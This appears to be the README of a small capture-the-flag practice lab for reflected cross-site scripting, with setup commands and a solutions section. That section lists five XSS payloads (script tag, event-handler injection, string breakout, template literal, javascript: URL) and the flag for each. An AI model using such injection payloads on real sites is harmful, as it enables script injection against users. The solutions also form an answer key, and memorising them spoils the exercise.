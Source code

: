 # Hello, Friend!

Introducing...

# Le Bean

A warm and wholesome reflected XSS fun for the whole family!

![](screenshot.png)

## How?

Yes, yes. I'm getting there.

```
python3 -m venv venv/
source venv/bin/activate
pip3 install -r lebean/requirements.txt
cd lebean/
flask run
```

Open `http://localhost:5000` in browser, and have fun!

## Solutions

### Challenge 1

Solution: `<script>alert(1)</script>`

Flag: `flag{ezpz_xss_squeezy}`

### Challenge 2

Solution: `" onfocus="alert(1)` (or some other event)

Flag: `flag{xss_on_event_fun_fun}`

### Challenge 3

Solution: `'); alert(1); //`

Flag: `flag{xss_sneaky_clever_fren}`

### Challenge 4

Solution: `${alert(1)}`

Flag: `flag{xss_templeet_string}`

### Challenge 5

Solution: `javascript:alert(1)`

Flag: `flag{iframe_shenanigans_xss}`

## Docker

Wow look at you, using docker. Smart friend, you are. ;)

```
docker build -t lebean .
docker run -p 5000:5000 lebean
```

Have fun, friends!

